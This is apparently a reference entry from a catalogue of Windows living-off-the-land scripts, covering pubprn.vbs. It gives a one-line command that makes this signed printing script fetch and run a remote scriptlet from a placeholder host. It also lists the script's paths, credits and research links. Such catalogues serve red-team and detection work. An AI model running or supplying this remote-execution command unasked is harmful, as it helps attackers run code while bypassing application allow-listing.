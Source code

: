## Pubprn.vbs

* Functions: Execute

```
pubprn.vbs 127.0.0.1 script:https://domain.com/folder/file.sct
```

Acknowledgements:
* Matt Nelson - @enigma0x3

Code sample:
* [Pubprn_calc.sct](Payload/Pubprn_calc.sct)

Resources:
* https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
* https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
* https://github.com/enigma0x3/windows-operating-system-archaeology

Full path:
```
C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
```

Notes:



 
